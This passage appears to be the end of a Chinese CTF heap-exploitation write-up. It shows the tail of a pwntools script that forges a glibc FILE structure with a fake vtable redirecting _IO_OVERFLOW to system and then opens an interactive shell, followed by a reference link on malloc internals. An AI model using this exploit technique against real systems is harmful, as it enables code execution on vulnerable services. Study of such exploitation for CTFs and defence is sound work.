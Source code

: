 ```python
	fake_file += p64(0)
	fake_file += p64(0)
	fake_file += p64(heap_base+0x5d0)#pointer to vtable
	payload += fake_file
	payload += p64(0)*3 # vtable
	payload += p64(system_addr)#_IO_OVERFLOW

  #step4. attack
	upgrade(0x800,payload)	
	p.recvuntil('Your choice : ')
	p.sendline('1')
	p.interactive()

if __name__ == '__main__':
	pwn()
```



## 0x07 REFFERENCE

[理解 glibc malloc：malloc() 与 free() 原理图解]https://blog.csdn.net/maokelong95/article/details/52006379